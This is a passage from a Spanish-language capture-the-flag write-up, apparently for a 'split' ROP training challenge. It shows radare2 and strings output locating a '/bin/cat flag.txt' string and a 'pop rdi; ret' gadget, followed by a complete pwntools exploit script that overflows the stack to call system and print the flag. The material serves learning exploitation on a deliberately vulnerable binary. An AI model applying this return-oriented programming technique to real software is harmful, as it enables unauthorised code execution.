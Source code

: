 Llamar a system con "/bin/ls" como argumento no me sirve, busco alguna cadena que me sea más útil:

```
$ strings split
...
/bin/cat flag.txt
...

$ r2 -AAA -qc "/ /bin/cat" split
0x00601060 hit3_0 ./bin/cat flag.txt.
```

Si consigo sobreescribit RDI con la dirección de esa cadena(0x00601060) podré visualizar la flag.

Busco gadgets que me sean útiles con radare2:

```
$ r2 -AAA -qc "/R" split
...
0x004007c3                 5f  pop rdi
0x004007c4                 c3  ret
...
```

### Escribir el exploit

Calculo el offset igual que en el reto anterior, en este caso también es de 32 bytes. 

El payload está formado por:
1. Offset de 32 bytes para llenar la pila
2. 8 bytes para sobreescribir el valor que se pusheará a RBP
3. La dirección del gadget: pop rdi ; ret
4. La dirección de la cadena "/bin/cat flag.txt" que se pusheará a RDI
5. La dirección de system


**exploit.py**

```python
#!/usr/bin/python3
from pwn import *

elf = "./split"
p = process(elf)
ELF(elf)

offset = b'A'*32
RBP = b'B'*8
gadget1 = p64(0x004007c3)
RDI = p64(0x00601060)
system = p64(0x0040074b)

p.sendline(offset + RBP + gadget1 + RDI + system)

# PRINT FLAG
print()
print(p.recvuntil("you!\n").decode("utf-8"))
print(p.recvuntil('}').decode("utf-8"))

p.close()
exit(0)
```

---